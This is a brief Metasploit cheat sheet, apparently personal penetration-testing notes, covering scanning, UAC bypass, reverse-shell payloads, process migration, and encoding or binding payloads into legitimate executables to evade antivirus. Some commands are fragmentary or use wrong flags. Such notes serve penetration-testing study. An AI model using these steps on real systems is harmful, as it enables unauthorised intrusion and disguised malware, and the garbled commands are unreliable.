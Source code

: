 # Metasploit
- https://www.offensive-security.com/metasploit-unleashed/Pivoting/
- https://www.offensive-security.com/metasploit-unleashed/Portfwd/
- https://www.offensive-security.com/metasploit-unleashed/proxytunnels/

## General Commands:
```
show auxilary
search snmp
use snmp_enum
info
show options
set RHOS ip
run
```
```
setg RHOST ip (global set)
```

### Hosts:
```
db_nmap ip-range --top-ports 20 (to populate database)
```

### Search Services:
```
services -p 443 (search all machines with 443 open)
```

### Modifying exploit:
```
~/.msf4/modules/exploits/windows/misc/vulnserver.rb
```

### Post exploitation
- exploit/windows/local/bypassuac
- set payload to reverse-shell  (so that a new session will be created)
- migrate to a system privileged process

### Encode
```
msfpayload ............ | msfconsole -e x86/shikata_ga_nai -t exe -c 9 -o exe.exe
```

### Binding
```
msfpayload ............ | msfconsole -e x86/shikata_ga_nai -t exe -c 9 -x goodexe.exe -o bound.exe
```

### Auto Migrate
```
set AutoRunScript post/windows/manage/migrate
```
